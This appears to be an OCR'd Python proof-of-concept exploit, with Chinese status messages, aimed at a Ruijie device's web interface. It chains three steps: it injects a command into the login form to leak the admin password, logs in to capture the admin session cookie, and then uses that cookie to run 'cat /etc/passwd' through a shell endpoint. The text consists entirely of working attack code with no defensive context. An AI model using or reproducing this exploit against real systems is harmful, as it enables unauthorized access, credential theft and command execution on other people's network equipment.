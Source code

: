 ```
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password=admin?show+webmaster+user'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "data" in response.text and response.status_code == 200:
            password = re.findall(r'admin (.*?)"', response.text)[0]
            print("\033[36m[o] 成功获取, 账号密码为:  admin   {} \033[0m".format(password))
            POC_2(target_url, password)
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_2(target_url, password):
    vuln_url = target_url + "/login.php"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'username=admin&password={}'.format(password)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在登录..... \033[0m".format(target_url))
        if "status" in response.text and "1" in response.text and response.status_code == 200:
            ruijie_cookie = "RUIJIEID=" + re.findall(r"'Set-Cookie': 'RUIJIEID=(.*?);", str(response.headers))[0] + ";user=admin;"
            print("\033[36m[o] 成功获取管理员Cookie: {} \033[0m".format(ruijie_cookie))
            POC_3(target_url, ruijie_cookie)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_3(target_url, ruijie_cookie):
    vuln_url = target_url + "/cli.php?a=shell"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Cookie": "{}".format(ruijie_cookie)
    }
    data = 'notdelay=true&command=cat /etc/passwd'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 cat /etc/passwd..... \033[0m".format(target_url))
        if "root:" in response.text and response.status_code == 200:
            print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


```